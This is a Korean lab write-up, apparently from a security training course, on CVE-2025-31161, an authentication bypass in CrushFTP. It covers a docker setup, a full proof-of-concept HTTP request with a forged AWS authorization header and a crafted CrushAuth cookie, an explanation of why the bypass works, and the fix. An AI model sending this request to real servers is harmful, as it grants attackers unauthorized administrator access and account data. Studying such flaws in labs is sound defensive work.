



# CVE-2025-31161 | CrushFTP Authentication Bypass
---
> 화이트햇 스쿨 3기 (19반) - [김휘성 (@hwisungkk)](https://github.com/hwisungkk) / [Blog Link](https://hwisungkk.github.io/)<br>
> [상세 취약점 분석](https://abounding-king-077.notion.site/CVE-2025-31161-1e289d4224478074b76bdf15b4a30590) - notion
>
> https://github.com/hwisungkk/kr-vulhub/tree/main/CrushFTP/CVE-2025-31161 <br>
> https://github.com/gunh0/kr-vulhub/pull/273 

<br>

### 요약
- 다중 프로토콜, 다중 플랫폼을 지원하는 파일 전송 서버인 CrushFTP AWS S3 인증 과정의 헤더 처리 로직 결함으로 인한 인증 우회 취약점입니다. <br>

- 알려진 사용자명을 이용해 공격자는 인증 없이 관리자 권한 획득이 가능해서 원격 코드 실행까지 가능합니다.
  
- 패스워드 검증 과정에서 문제가 발생해 검증이 생략됩니다.

- CVE-2025-2825로 발급된 후 reject되고 CVE-2025-31161로 부여되었습니다.

### target
- CrushFTP 11.0.0 ≤ 11.3.0
- CrushFTP 10.0.0 ≤ 10.8.3


## 환경 구성 및 실행
- [CrushFTP 10.8.0_4 version](https://github.com/NetLah/docker-crushftp/tree/main) 해당 repo에서 취약점이 발생하는 CrushFTP 버전 사용.

- `docker run -p 21:21 -p 443:443 -p 20000-20100:20000-20100 -p 2222:2222 -p 8080:8080 -p 9090:9090 -v ~/crushftp-data:/var/opt/crushftp --name crushftp netlah/crushftp:latest` 터미널에서 실행해서 127.0.0.1:8080 에서 CrushFTP 서버를 실행

- burpsuit로 PoC message를 보내 계정 인증 우회 가능. 계정 정보 출력으로 관리자 권한 확인

## Poc message
```
GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f=1111 HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8081/WebInterface/UserManager/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: CrushAuth=1743113839553_e96EZ70ONL6xAd1DAJhXMZYMn1111
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
Connection: keep-alive

```
```
1. 가짜 AWS S3 인증 헤더와 특수하게 포맷된 CrushAuth 쿠키를 사용하여 악성 HTTP 요청 작성 
2. "crushadmin"과 같은 알려진 기본 사용자 이름을 타겟팅 (~ 문자 제외하고)
3. CrushFTP 웹 인터페이스에 요청 제출
```
- Authorization 헤더는 "AWS4-HMAC"로 시작<br>
- CrushAuth는 유효할 필요없이 13개 숫자 + 언더바 + 30자 문자열<br>
- 마지막 4글자가 c2f와 같다면 사용자 목록을 서버로부터 응답받을 수 있습니다.

## 결과
**서버**




127.0.0.1:8080에 띄운 후<br>
burpsuite로 poc message를 보내면<br>



**계정 정보 탈취 성공**

## 정리
```c
boolean lookup_user_pass = true;  // Default to true - this is crucial!
```
코드처럼 true로 권한을 주고, 뒤의 흐름에서 어떤 조건(해당 취약점에서는 '~'가 있는지)으로 false로 바꾸는 흐름은 위험합니다. 조건을 우회하기만 하면 변수의 값이 true로 남고, 악용할 수 있기 때문입니다.<br>

현재는 방어 방법으로 보안을 위한 새로운 매개변수를 만들어서 false 값을 준 다음 lookup_user_pass가 아닌 매개변수로 검사를 해서 로직을 나눴습니다.
